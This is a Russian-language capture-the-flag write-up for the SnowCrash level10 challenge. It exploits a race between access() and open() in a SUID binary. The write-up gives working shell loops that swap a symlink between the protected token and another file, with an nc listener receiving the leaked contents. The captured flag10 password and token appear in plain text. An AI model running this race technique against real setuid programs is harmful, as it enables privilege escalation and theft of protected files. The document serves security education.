 ```
ls -l
```
> total 16\
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10\
-rw-------  1 flag10 flag10     26 Mar  5  2016 token\

Все как обычно SUID и бинарь с токеном

```
./level10
```
> ./level10 file host\
	sends file to host if you have access to it

Попытавшись запустить видим что бинарник ждет файл и хоста

```
./level10 /tmp/file 127.0.0.1
```
> Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

Узнаем нужный порт
./level10 /bin/getflag 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

Через ltrace находим, что бинарник делет access
level10@SnowCrash:~$ ltrace ./level10 token 12
__libc_start_main(0x80486d4, 3, 0xbffff7a4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                         = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)           = 31
+++ exited (status 31) ++

Открыв man находим
NOTES
       Warning:  Using access() to check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because the user might
       exploit  the  short  time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be avoided.  (In the  example
       just  described,  a  safer  alternative  would  be to temporarily switch the process's
       effective user ID to the real ID and then call open(2).)





level10@SnowCrash:~$ ./level10 /tmp/link 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!


nc -lk localhost 6969

.*( )*.
aa



В одном терминале постоянно меняем ссылку, чтобы попасть в этот промежуток времени между access и open
level10@SnowCrash:~$ while true; do ln -fs ~/token /tmp/link; ln -fs ~/level10 /tmp/link; done

Во втором терминале открываем хост на нужном порту
level10@SnowCrash:~$ nc -lk localhost 6969


В третьем терминале запускаем скрипт
level10@SnowCrash:~$ while true; do ./level10 /tmp/link 127.0.0.1; done

...
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. Damn. Unable to open fileUnable to read from file: %s
wrote file!You don't have access to %s
;0����Lx���p��������������zR� P���F
                                   J
��                                  tx?;*2$"@�����B
  8`|���a�A
           �A�A�N0JA�A
                      ��A�������������������
���o�Ё                                      Є
�
 �H������o���o(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
^C
...


Среди вывода находим пароль от flag10
woupa2yuojeeaaed06riuj63c


level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$
